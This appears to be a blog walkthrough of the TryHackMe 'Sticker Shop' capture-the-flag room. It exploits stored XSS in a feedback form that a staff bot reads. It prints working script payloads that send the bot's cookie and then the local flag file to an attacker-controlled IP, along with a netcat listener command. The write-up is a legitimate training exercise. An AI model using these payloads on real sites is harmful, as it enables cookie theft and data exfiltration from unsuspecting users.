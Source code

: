 ```yaml
---
title: The Sticker Shop - TryHackMe - Walkthrough
date: 2024-12-01 08:00:00 +0200
categories: [TryHackMe]
tags: [shop,xss,feedback,easy]
description: Simple room, just about exploiting a XSS vulnerability
image:
  path: /assets/blog/The-Sticker-Shop/Room.png
  alt: The Sticker Shop Room image
---
```


## Description

> Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
>
> Can you read the flag at `http://10.10.114.115:8080/flag.txt`?

## Simple exploit

For this room I didn't even start with an initial `nmap` scan, I went straight to port 8080 and visited the page.

![](/assets/blog/The-Sticker-Shop/website.png)

I noticed the feedback form and visited that page.

![](/assets/blog/The-Sticker-Shop/feedback.png)

If we enter some feedback and then press the Submit button, we get this response:

> Thanks for your feedback! It will be evaluated shortly by our staff


This sounds like there could be a bot always checking the new feedback data, which may lead us to XSS...

I started with my standart XSS payload:
```html
<script>fetch("http://10.14.78.229:4444/"+document.cookie);</script>
```
To receive an incoming connection I started a listener:
```sh
nc -lvnp 4444
```

Suddenly I got back the connection. That looks promising, but there is no cookie so we can't just add the cookie to our cookies and view the flag, apparently the flag is only visible for the bot.

![](/assets/blog/The-Sticker-Shop/connection.png)

The next idean in my head was that we could fetch the cookie in the Javascript in our XSS payload and send the contents of the page back to us.
This is how we can fetch a website in JS described by ChatGPT:
```js
fetch('https://example.com') // Replace with the URL you want to fetch
  .then(response => {
    if (!response.ok) {
      throw new Error(`HTTP error! status: ${response.status}`);
    }
    return response.text(); // Use .json() if expecting a JSON response
  })
  .then(data => {
    console.log(data); // Logs the page's HTML or response body
  })
  .catch(error => {
    console.error('Error fetching the page:', error);
  });
```

Let's modify this to build our own payload. I first removed all the error handling cause this doesn't help. Then I added our own fetch with the data to the payload:
```js
fetch('http://127.0.0.1:8080/flag.txt').then(response => {
  return response.text();
  }).then(data => {
    fetch("http://10.14.78.229:4444/"+data);
  })
```
If we make this a one-liner, that we don't get any errors that way, the payload looks like this:
```html
<script>fetch('http://127.0.0.1:8080/flag.txt').then(response => {return response.text();}).then(data => {fetch("http://10.14.78.229:4444/"+data);})</script>
```

We now can send the payload in the XSS form and try to get the flag.

![](/assets/blog/The-Sticker-Shop/flag.png)

We now have the flag, if you wan't the flag now in a clean format, you can take everything after the `/` and paste it into CyberChef, then you can URL decode it to the flag.

In my opinion this is a nice room in which you can easily practice XSS and learn more to craft your own payloads.
